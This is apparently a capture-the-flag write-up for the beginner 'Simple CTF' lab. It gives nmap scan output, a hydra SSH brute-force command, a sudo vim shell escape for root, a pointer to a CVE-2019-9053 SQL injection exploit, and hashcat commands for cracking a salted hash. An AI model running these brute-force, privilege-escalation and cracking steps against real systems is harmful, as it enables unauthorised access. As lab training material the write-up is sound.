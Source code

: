 # Simple CTF

### Simple CTF
Initial nmap scan shows port 21(ftp), 80(http) and 2222(ssh) open. 

    PORT     STATE SERVICE VERSION
    21/tcp   open  ftp     vsftpd 3.0.3
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.11.85.53
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 3
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_Can't get directory listing: TIMEOUT
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    | http-robots.txt: 2 disallowed entries 
    |_/ /openemr-5_0_1_3 
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
    |   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
    |_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

FTP server allows anonymous login and shows this text file: <br />
![image](https://github.com/user-attachments/assets/b67869b8-122c-414d-a30a-dab1a12b0c8e)<br />
So since apparently this password is weak, I decided to bruteforce ssh login on the user `mitch` with the command `hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 10.10.229.116 ssh`. 
This was enough to find the password, log into mitch ssh account and get the user flag. For privesc, if I run `sudo -l` I get: <br />
![image](https://github.com/user-attachments/assets/2117a96a-fa21-42f9-8f07-5f5ce2a94b5a)<br />
The exploit for this can be easily found on [GTFObins](https://gtfobins.github.io/gtfobins/vim/#sudo). Just run `sudo vim -c ':!/bin/sh'` and get the root flag.<br /><br />

This CTF is intended for beginners, and the main path is to exploit `CVE-2019-9053`, which is a blind SQL injection vulnerability in `CMS Made Simple <= 2.2.10`, that allows you to retrieve user login information. To exploit it, I found [this](https://github.com/ELIZEUOPAIN/CVE-2019-9053-CMS-Made-Simple-2.2.10---SQL-Injection-Exploit/blob/main/cve.py) script that works very well.<br />
It essentially uses the blind SQLi to read from a users table, and dump the username, the email, the salt and hash of the password. Once the exploit finishes, you should end up with something like this: <br />
![image](https://github.com/user-attachments/assets/81572b1e-9649-419c-a736-e405ba8012c9)<br />
To crack it, create a file `hash.txt` with the following content (hash:salt)

    c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2
Now use hashcat to crack it, with the command `hashcat -m 20 hash.txt /usr/share/wordlists/rockyou.txt`.
